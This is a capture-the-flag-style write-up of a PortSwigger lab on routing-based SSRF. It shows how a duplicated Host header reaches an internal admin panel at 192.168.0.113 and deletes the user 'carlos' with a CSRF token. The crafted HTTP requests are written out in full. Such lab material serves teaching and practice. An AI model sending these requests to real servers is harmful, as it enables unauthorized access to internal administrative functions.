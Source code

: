 
# 3 - SSRF via flawed request parsing

This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.



![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/1.png)

Link: https://portswigger.net/web-security/host-header/exploiting#routing-based-ssrf


![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/2.png)

-------------

https://0a5100f104ffdc65c3832510004000cf.web-security-academy.net/

If you supply the domain of your Collaborator server in the Host header, and subsequently receive a DNS lookup from the target server or another in-path system, this indicates that you may be able to route requests to arbitrary domains.

Error in Host header for "/product?productId=1":

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/3.png)

Gateway error when adding a second Host header:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/4.png)

Send to Intruder:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/5.png)

Using 192.168.0.113 we get a 404 error:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/6.png)

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/7.png)

Repeat the request with the product ID, add the second Host header with that IP address and change path to "/update":

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/8.png)

```
GET /admin/ HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...
```

We get this page:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/9.png)

Deleting the user is not possible, so I repeated the process and captured the response:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/10.png)

We will send a new request to delete the user knowing the endpoint is /admin/delete and the parameter is probably username:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/11.png)

```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos
```

We get the error:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/12.png)

Let's repeat the process and add the csrf value in the response to the previous GET request ("IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv"):

```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos&csrf=IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv
```

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/13.png)

We get a 302 redirection:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/14.png)

Lab is solved:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/15.png)
